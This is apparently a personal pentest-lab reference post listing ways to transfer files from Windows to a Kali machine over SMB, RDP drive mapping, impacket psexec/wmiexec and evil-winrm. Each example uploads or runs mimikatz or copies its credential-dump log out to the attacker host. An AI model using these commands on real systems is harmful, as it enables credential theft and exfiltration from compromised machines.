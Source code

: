 ```yaml
---
layout: post
title: Windows to Linux File Transfers
tag: [reference]
---
```


Transferring files from windows to linux can be annoying. Anyway you do it requires remembering some command line options for whatever tool you're using, which is why this post is being made as a reference for myself.

Here are the methods:

## SMB: 
Start server on linux:
```bash
impacket-smbserver test . -smb2support  -username USERNAME -password PASSWORD
```

then in Windows:
```powershell
net use m: \\Kali_IP\sharename /user:USERNAME PASSWORD

copy mimikatz.log m:\
```

## RDP: Mounting Shared Folders
### xfreerdp
Linux:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-200
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

### rdesktop

Linux:
```bash
rdesktop -z -P -x m -u USERNAME -p PASSWORD XXX.XXX.XXX.XXX -r disk:test=/home/kali/Documents/
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

## smpacket tools
> `psexec` and `wmiexec` are shipped with built in feature for file transfer.
{: .prompt-info}

> **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
{: .prompt-info}

Uploading mimikatz.exe to the target machine:
```powershell
lput mimikatz.exe

cd C:\windows

dir /b mimikatz.exe

mimikatz.exe
```

Downloading mimikatz.log:

```bash
lget mimikatz.log
```

## Evil-winrm

Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```

Downloading files:
```bash
download mimikatz.log /home/kali/Documents
```
